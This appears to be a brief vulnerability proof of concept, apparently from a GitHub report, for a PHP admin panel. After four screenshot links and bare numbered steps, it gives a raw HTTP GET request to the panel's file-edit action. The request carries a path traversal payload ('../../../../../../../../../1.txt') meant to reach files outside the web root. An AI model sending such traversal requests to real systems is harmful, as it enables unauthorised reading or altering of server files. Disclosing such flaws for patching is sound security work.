




1.

2.

3.转到文件

4.

**GET** /admin/admin.php?**action**=**file**&**ctrl**=**edit**&**path**=**../../../../../../../../../1.txt** **HTTP/1.1**

**Host**: 127.0.0.1:92

**User-Agent**: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:133.0) Gecko/20100101 Firefox/133.0

**Sec-Fetch-Site**: same-origin

**Cookie**: **PHPSESSID**=**eoecdok9771lj8isvt9oqv14g0**

**Sec-Fetch-Dest**: frame

Priority: u=4

Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2

**Referer**: http://127.0.0.1:92/admin/admin.php?action=file&ctrl=download&path=aaaa

**Sec-Fetch-User**: ?1

Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8

Accept-Encoding: gzip, deflate, br, zstd

Upgrade-In**secure-Requests**: 1

**Sec-Fetch-Mode**: navigate